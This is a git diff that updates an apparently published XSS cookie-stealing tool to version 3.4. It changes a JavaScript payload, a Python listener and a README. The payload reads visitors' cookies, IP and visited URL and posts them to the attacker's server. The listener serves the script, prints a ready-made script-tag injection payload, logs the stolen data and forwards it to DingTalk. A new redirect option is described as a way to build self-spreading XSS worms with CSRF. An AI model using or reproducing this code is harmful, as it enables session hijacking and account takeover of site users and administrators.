

2023/1/9

diff --git a/Main.js b/Main.js
@@ -1,3 +1,4 @@
+var Rd_Path=null;
 var User_Infor = {
     IP:null,
     Host_Type:null,
@@ -89,9 +90,10 @@ function browserRedirect(){
 
 function DATA_Packet(DATA){
     var xhr = new XMLHttpRequest();
-    xhr.open("POST","http://192.168.31.1:1234",true);//Tag
+    xhr.open("POST","@POC",true);//Tag
     xhr.setRequestHeader('content-type', 'application/x-www-form-urlencoded;charset=utf-8');
     xhr.send(JSON.stringify(DATA));
+    return true;
 }
 function Get_Base_Message(){
     var Info = 
@@ -101,11 +103,20 @@ function Get_Base_Message(){
     User_Infor['Visit_URL']=Encryption(document.URL);
     User_Infor['NetWork']=Encryption(getNetworkType());
     User_Infor['Time']=Encryption(new Date().toLocaleString()); 
-    User_Infor['Cookies']=Encryption(document.cookie) || null
-    DATA_Packet(User_Infor);
+    User_Infor['Cookies']=Encryption(document.cookie) || null;
+    if (DATA_Packet(User_Infor)==true){
+        return true;
+    }
+    else{
+    return false;
+    }
+
 }
 
 function Encryption(DATA){
-    return btoa(DATA)
+    return btoa(DATA);
 }
-Get_Base_Message();
+
+if(Get_Base_Message()==true && Rd_Path != null) {
+setTimeout( Rd_Path,4000);
+}

diff --git a/XSS_Tool_V3.4.py b/XSS_Tool_V3.4.py
@@ -4,25 +4,34 @@ import base64
 import json
 import socket
 import sys
+import os
 import argparse
-import datetime
 import textwrap
 import threading
 import requests
 import re
-Version = "V3.2"
-Title='''Github==>https://github.com/MartinxMax\n<免责声明>:仅供学习实验使用,请勿用于非法行为,否则自行承担法律责任\n<Disclaimer>: For learning and experiment only, please do not use it for illegal acts, otherwise you will bear legal responsibility'''
+Version = "V3.4"
+Title='''Github==>https://github.com/MartinxMax\n<免责声明>:仅供学习实验使用,请勿用于非法行为,否则自行承担法律责任\n<Disclaimer>: 
+For learning and experiment only, please do not use it for illegal acts, otherwise you will bear legal responsibility'''
 Ding_talk_headers = {'Content-Type': 'application/json;charset=utf-8'}
 Logo='''
-.88b  d88.  .d8b.  d8888b. d888888b d888888b d8b   db        db    db .d8888. .d8888. db    db d8888b.    .d888b. 
-88'YbdP`88 d8' `8b 88  `8D `~~88~~'   `88'   888o  88        `8b  d8' 88'  YP 88'  YP 88    88 VP  `8D    VP  `8D 
-88  88  88 88ooo88 88oobY'    88       88    88V8o 88         `8bd8'  `8bo.   `8bo.   Y8    8P   oooY'       odD' 
-88  88  88 88~~~88 88`8b      88       88    88 V8o88 C8888D  .dPYb.    `Y8b.   `Y8b. `8b  d8'   ~~~b.     .88'   
-88  88  88 88   88 88 `88.    88      .88.   88  V888        .8P  Y8. db   8D db   8D  `8bd8'  db   8D db j88.    
-YP  YP  YP YP   YP 88   YD    YP    Y888888P VP   V8P        YP    YP `8888Y' `8888Y'    YP    Y8888P' VP 888888D 
-'''
+  __  __                  _     _                   __   __   _____    _____  __      ______        _  _   
+ |  \/  |                | |   (_)                  \ \ / /  / ____|  / ____| \ \    / /___ \      | || |  
+ | \  / |   __ _   _ __  | |_   _   _ __    ______   \ V /  | (___   | (___    \ \  / /  __) |     | || |_ 
+ | |\/| |  / _` | | '__| | __| | | | '_ \  |______|   > <    \___ \   \___ \    \ \/ /  |__ <      |__   _|
+ | |  | | | (_| | | |    | |_  | | | | | |           / . \   ____) |  ____) |    \  /   ___) |  _     | |  
+ |_|  |_|  \__,_| |_|     \__| |_| |_| |_|          /_/ \_\ |_____/  |_____/      \/   |____/  (_)    |_|  
+                                                                                                           
+                                                                                                           '''
+ 
+ 
+ 
 def Get_LoackHost():
-    return socket.gethostbyname(socket.gethostname())
+    if socket.gethostbyname(socket.gethostname()).startswith('127'):
+        print()
+        return os.popen("ifconfig eth0 | awk -F \"[^0-9.]+\" 'NR==2{print $2}'").read().strip()
+    else:
+        return socket.gethostbyname(socket.gethostname())   
 class TCPINFO():
     def __init__(self, args):
         self.args = args
@@ -30,6 +39,7 @@ class TCPINFO():
         self.LHOST = args.LHOST
         self.RPORTS = args.RPORTS
         self.RHOSTS = args.RHOSTS
+        self.Redirect_Page = args.Redirect_Page
         self.DingTalk_Config = args.DingTalk_Config_File
         self.DingTalk_Token = args.DingTalk_Token
         self.DingTalk_Key = args.DingTalk_Key
@@ -37,8 +47,8 @@ class TCPINFO():
     def run(self):
         if not self.DingTalk_Test():
             sys.exit(0)
-        PAYLOAD = f"<script src=\"{self.Transmission_mode and self.RHOSTS or 'http://'+Get_LoackHost()}:{self.Transmission_mode and self.RPORTS or str(self.LPORT)}/Main.js\"></script>"
-        self.Interface_JS(self.Transmission_mode and self.RHOSTS or "http://"+Get_LoackHost(),self.Transmission_mode and self.RPORTS or str(self.LPORT))
+        PAYLOAD = f"<script src=\"{self.Transmission_mode and self.RHOSTS or 'http://'+Get_LoackHost()}:" \
+                  f"{self.Transmission_mode and self.RPORTS or str(self.LPORT)}/Main.js\"></script>"
         print('-'*100,"\n[+]Payload=>",PAYLOAD,"\n",'-'*100)
         self.TCP_Listen()
 
@@ -51,18 +61,20 @@ class TCPINFO():
             threading.Thread(
                 target=self.Client, args=(SOCK,)
             ).start()
-    def Interface_JS(self,IP,PORT):
-        with open('./Main.js','r')as f:
-            Note = re.sub(',"(.*?)",true\);//Tag', f',"{IP}:{PORT}",true);//Tag', f.read())
-        with open('./Main.js','w')as f:
-            f.write(Note)
+
     def Send_JS(self,SOCK):
-        with open('./Main.js','rb')as f:
+        Rd_Payload=None
+        with open('./Main.js','r')as f:
             Byte_Code=f.read()
         Head = "HTTP/1.1 200 OK\r\n"
+        Byte_Code = Byte_Code.replace("@POC", f"{self.Transmission_mode and self.RHOSTS or 'http://'+Get_LoackHost()}:"
+                                              f"{self.Transmission_mode and self.RPORTS or self.LPORT}")
+        if self.Redirect_Page:
+           Byte_Code=Byte_Code.replace("var Rd_Path=null;",f"var Rd_Path='window.location.href=\"{self.Redirect_Page}\""
+                                                           f"';")
         Head += f"content-length:{len(Byte_Code)}\r\n\r\n"
         SOCK.send(Head.encode())
-        SOCK.send(Byte_Code)
+        SOCK.send(Byte_Code.encode())
     def Client(self,SOCK):
         DATA = SOCK.recv(1024).decode('utf-8')
 
@@ -78,13 +90,15 @@ class TCPINFO():
             User_INFO[Key]=self.Decrypt(Value)
         Dis_Info =f'''
 ------------------------------------------------------------------------------
-|$Time>{User_INFO['Time']}\t//Visit_URL:{User_INFO['Visit_URL']}\t#Host_Type:{User_INFO['Host_Type']}
-|IP:{User_INFO['IP']}\tCookie:{User_INFO['Cookies']}\tNetWork:{User_INFO['NetWork']}   
+[+]Time:{User_INFO['Time']}\tVisit_URL:{User_INFO['Visit_URL']}\tHost_Type:{User_INFO['Host_Type']}
+   IP:{User_INFO['IP']}\tCookie:{User_INFO['Cookies']}\tNetWork:{User_INFO['NetWork']}   
 -----------------------------------------------------------------------------       
 '''
         print(Dis_Info)
+        if self.Redirect_Page:
+            print(f"[+]{User_INFO['IP']} Redirect To >>> {self.Redirect_Page}")
         if self.DingTalk_Token and self.DingTalk_Key:
-            self.DingTalk_Send(Dis_Info)
+            self.DingTalk_Send(Dis_Info+( f"{User_INFO['IP']} Redirect To >>> {self.Redirect_Page}" if self.Redirect_Page else ""))
     def Decrypt(self,str):
         try:
             str=base64.b64decode(str).decode("utf-8")
@@ -104,8 +118,6 @@ class TCPINFO():
                 return True
             else:
                 return False
-
-        return True
     def DingTalk_Test(self):
         if self.DingTalk_Config:
             if self.Get_DingTalk_Config_File():
@@ -133,7 +145,7 @@ class TCPINFO():
             else:
                 return True
     def DingTalk_Send(self,Push_Message):
-
+        DATA=None
         Message = {
             "text": {
                 "content": f"=={self.DingTalk_Key}==\n{Push_Message}"
@@ -165,15 +177,17 @@ def main():
         Usage:
            python3 %s # You can enable the default intranet port 8888 to listen without adding any parameters
            python3 %s -lp 1234  # You can add the - p parameter to specify the port
-           python3 %s -lp 1234 -dt xxxxx... -dk xxx # You can push the results
-           python3 %s -lp 1234 -dcf # You can use the parameter options directly after filling in the configuration file
+           python3 %s -dt xxxxx... -dk xxx # You can push the results
+           python3 %s -dcf # You can use the parameter options directly after filling in the configuration file
+           python3 %s -rd "http://HackerXSS.com" # You can use the redirect option to create XSS worms with CSRF
            python3 %s -t -lp 1234 -rh xxx.xxx.xxx.xxx -rp xxxx # You can join the IP and port penetrated by your intranet
-           python3 %s -t -lp 1234 -rh xxx.xxx.xxx.xxx -rp xxxx -dt xxxxx... -dk xxx # You can push the results
-           python3 %s -t -lp 1234 -rh xxx.xxx.xxx.xxx -rp xxxx -dcf # You can use the parameter options directly after filling in the configuration file
-    
-            '''% (sys.argv[0],sys.argv[0],sys.argv[0],sys.argv[0],sys.argv[0],sys.argv[0],sys.argv[0])))
+           python3 %s -t -rh xxx.xxx.xxx.xxx -rp xxxx -dt xxxxx... -dk xxx # You can push the results to DingTalk
+           python3 %s -t -rh xxx.xxx.xxx.xxx -rp xxxx -dcf # You can use the parameter options directly after filling in the configuration file
+           python3 %s -t -rh xxx.xxx.xxx.xxx -rp xxxx -rd "http://HackerXSS.com" # You can use the redirect option to create XSS worms with CSRF
+            '''% (sys.argv[0],sys.argv[0],sys.argv[0],sys.argv[0],sys.argv[0],sys.argv[0],sys.argv[0],sys.argv[0],sys.argv[0],)))
     parser.add_argument('-lp', '--LPORT', type=int, default=8888, help='Listen port')
     parser.add_argument('-lh', '--LHOST', default=Get_LoackHost(), help='# Currently in the development stage, you don\'t need to carry this parameter')
+    parser.add_argument('-rd', '--Redirect_Page', default=None, help='Redirect_Page')
     parser.add_argument('-t', '--Transmission_mode', action='store_true', help='Intranet penetration mode')
     parser.add_argument('-dcf', '--DingTalk_Config_File', action='store_true', help='DingTalk_Config_File')
     parser.add_argument('-dt','--DingTalk_Token', default=None, help='DingTalk_Token')

diff --git a/README.md b/README.md
@@ -1,22 +1,23 @@
 # XSS steals cookies
-* The current version V3.2 updates the remote push of nails, so that you can receive victim information in real time on Android without having to face the host
+* The current version V3.4 updates the remote push of nails, so that you can receive victim information in real time on Android without having to face the host
+* Update the redirection function, you can use CSRF to create XSS worm attacks
 * Python version 3.6 or above
 * Obtain the victim's public IP address and cookie
 * Compatible with Windows or Linux
 ## usage method
   * View help information
 
-      ```#python3 XSS_Tool_V3.2.py -h```
+      ```#python3 XSS_Tool_V3.4.py -h```
 
   ![图片名称](./Demo_image/Help2.png "Help")  
 
   * LAN attack
 
-      ```#python3 XSS_Tool_V3.2.py -lp (Local port)```
+      ```#python3 XSS_Tool_V3.4.py -lp (Local port)```
 
   * Internet attack
 
-      ```#python3 XSS_Tool_V3.2.py -t -lp (Local port) -rh (Remote host IP) -rp (Remote host port)```
+      ```#python3 XSS_Tool_V3.4.py -t -lp (Local port) -rh (Remote host IP) -rp (Remote host port)```
 
 ## Effect demonstration 
  * We will use WordPress-6.1.1 for XSS attack simulation test
@@ -30,7 +31,7 @@
 
 * Use Extranet attack
 
-    ```#python3 XSS_Tool_V3.2.py -t -rh http://xxx.xxx.xxx -rp 10029```
+    ```#python3 XSS_Tool_V3.4.py -t -rh http://xxx.xxx.xxx -rp 10029```
 
     ![图片名称](./Demo_image/Internet1.png "Extranetattack")  
 
@@ -39,7 +40,7 @@
 -----------------Hacker--------------------------
 * You can use the - lp parameter to specify the port. If you do not write, the default port is 8888
 
-```#python3 XSS_Tool_V3.2.py```
+```#python3 XSS_Tool_V3.4.py```
 
 ![图片名称](./Demo_image/Runing2.png "Run")  
 
@@ -65,7 +66,7 @@
 # Use Intranet attack[Message push]
 * @1.Use the parameter options - dt and - dk for push settings
 
-```#python3 XSS_Tool_V3.2.py -dt xxxxx... -dk xxx```
+```#python3 XSS_Tool_V3.4.py -dt xxxxx... -dk xxx```
 
 ![图片名称](./Demo_image/HackDT.png "Run")  
 
@@ -78,7 +79,7 @@
 
 2.The - dcf option can be used after configuration
 
-```#python3 XSS_Tool_V3.2.py -dcf```
+```#python3 XSS_Tool_V3.4.py -dcf```
 
 ![图片名称](./Demo_image/Config_OK.png "Run")  
 
@@ -95,3 +96,19 @@
 * Android perspective
 
 ![图片名称](./Demo_image/Android.jpg "Run")  
+
+# Use Intranet attack [XSS And CSRF Test]
+
+* CSRF shooting range
+
+![图片名称](./Demo_image/Login_Pikachu.png "Run")  
+
+* Select the parameter - rd to redirect
+
+![图片名称](./Demo_image/CSRF_XSS.png "Run")  
+
+* The administrator accesses and executes malicious code and is redirected
+
+![图片名称](./Demo_image/CSRF_Hacked.png "Run")  
+
+##^^^You can create an XSS worm for network propagation
